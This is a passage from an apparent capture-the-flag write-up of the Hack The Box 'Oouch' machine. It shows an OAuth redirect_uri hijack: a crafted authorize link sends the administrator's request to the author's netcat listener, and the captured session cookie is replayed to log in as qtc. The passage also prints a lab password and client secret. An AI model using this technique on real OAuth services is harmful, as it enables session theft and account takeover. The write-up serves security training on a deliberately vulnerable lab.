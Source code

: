 Now here we can see its `Oouch Development` and Logged in with `develop : supermegasecureklarabubu123!`

![Untitled](/img/htb-oouch/Untitled%2022.png)

Here we have some options to Register a new application.

![Untitled](/img/htb-oouch/Untitled%2023.png)

So I registered a new application here, to see what's going on.

![Untitled](/img/htb-oouch/Untitled%2024.png)

Back to our home page, we can see there are 2 options one is token and authorize.

![Untitled](/img/htb-oouch/Untitled%2025.png)

If you remember correctly, when we try to login here `consumer.oouch.htb:5000/oauth/login` the parameter looks like this. Now we have our own application . So If the Administrator click this we can grab his session id.

```bash
http://authorization.oouch.htb:8000/oauth/authorize?client_id=4muao51xk7wSAAMFe970Cr80vQaO8DusCEQW81fG&redirect_uri=http://10.10.14.9:1234&grant_type=client_credentials&client_secret=IVehRabE8UzG9EQrzDUCy7gfupOlL15y5RKc10CeWFJT8f9zWjf3CylrUriGwEatsPvjOZyoIfagE1hF4GgKAEV9ETNuZ2N5cUx5kEMWeuTaGVSl89gzPFwoJeEE0vEI
```

I send the link, the same way we did before.

![Untitled](/img/htb-oouch/Untitled%2026.png)

And I got a hit in my netcat and got the Administrator( qtc ) sessionid.

```bash
root@kali:~/CTF/HTB/Boxes/Oouch# nc -lnvp 1234 > something2
listening on [any] 1234 ...
connect to [10.10.14.9] from (UNKNOWN) [10.10.10.177] 38648
root@kali:~/CTF/HTB/Boxes/Oouch# cat something2 
GET /?error=invalid_request&error_description=Missing+response_type+parameter. HTTP/1.1
Host: 10.10.14.9:1234
User-Agent: python-requests/2.21.0
Accept-Encoding: gzip, deflate
Accept: */*
Connection: keep-alive
Cookie: sessionid=w9q1h1m2fxe7o2gka30kvlicbuddkjic;
```

## Getting User Shell

I edited the cookie and replaced it with the old cookie and reloaded the page.

![Untitled](/img/htb-oouch/Untitled%2027.png)

Now we can see I'm logged in as `qtc`.
